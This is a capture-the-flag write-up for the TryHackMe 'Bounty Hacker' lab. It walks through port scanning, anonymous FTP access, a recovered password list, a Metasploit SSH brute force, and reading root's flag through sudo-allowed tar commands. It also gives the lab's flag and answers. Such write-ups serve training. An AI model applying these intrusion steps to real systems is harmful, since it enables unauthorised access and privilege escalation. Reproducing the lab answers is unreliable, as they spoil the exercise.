




# Bounty Hacker - TryHackMe

## User

First thing, we should run nmap to show all the open ports:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-04 20:19 IDT
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 98.32% done; ETC: 20:19 (0:00:00 remaining)
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.74% done; ETC: 20:19 (0:00:00 remaining)
Stats: 0:00:29 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.78% done; ETC: 20:19 (0:00:00 remaining)
Nmap scan report for 10.10.18.146
Host is up (0.13s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.55 seconds
```

We see that there is a web server at port 80, let's go there.


Well, nothing helpful really. But it's always nice to have a plot in the challenge :)

We also have a FTP server on port 21. Let's try to connect using anonymous login:



Success!

We see the following files on the server:



So we might want to download them to our local machine using `get <file>`.

The tasks.txt file doesn't say much, but it does answer the first question on the walkthrough -
the answer is lin, so let's keep that name in mind.

But the locks.txt file is much more suspicous.
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

looks like a list of passwords...
Wait a minute... There was also an open SSH port on the machine :o

We can use Metasploit to brute force the password for user lin, which we found using the tasks file.



And... we got the password:
`RedDr4gonSynd1cat3`

Great! Now let's connect to SSH with the credentials we found:
`ssh lin@10.10.93.45`

We are in now and we got the `user.txt`.

## Root

We are connected as user `lin`, so let's check what we have root privillege on:



So we are allowed to run `tar` with sudo. Intersting.

We want to get the `/root/root.txt` file using `tar` only.
So we can compress the file into a tar file, and then use `tar` command to read the file without extracting it.

```
sudo tar -ztvf root.tar.gz
sudo tar -axf root.tar.gz root/root.txt  -O
```
Bam! We get the root flag:
`THM{80UN7Y_h4cK3r}`
